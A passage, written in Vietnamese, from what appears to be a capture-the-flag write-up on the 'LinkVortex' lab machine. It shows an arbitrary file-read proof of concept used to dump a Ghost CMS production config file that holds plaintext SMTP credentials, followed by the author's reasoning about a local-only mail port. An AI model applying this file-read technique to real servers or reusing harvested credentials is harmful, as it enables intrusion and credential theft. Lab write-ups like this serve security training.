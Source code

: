 Đầu óc bừng tình khi nhìn thấy dòng chữ `production`  nhạy cảm, có vẻ có gì bên trong đó. Với kinh nghiệm làm việc với Docker của tôi, tôi không mất quá 1s để hiểu được tập lệnh này làm gì 😌

Nhưng làm sao để đọc được nội dung của file  `config.production.json` bên trong `/var/lib/ghost/` . Là rõ, PoC vừa nãy sẽ giúp bạn điều này 😜.

Sau đó tôi đã thử đọc file cấu hình với hy vọng tìm được một gì đó chí mạng để chấm dứt tất cả những chuỗi ngày tăm tối vừa qua, nhưng có vẻ thông tin đem lại không mấy hữu ích.

```bash
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

Cấu hình có đề cập đến có một dịch vụ SMTP được mở trên cổng `587` bao gồm user và pass, nhưng ở bước đầu khi tôi quét bằng Nmap thì không thấy thông tin port này được hiển thị vì vậy có thể đây là một **local port**.
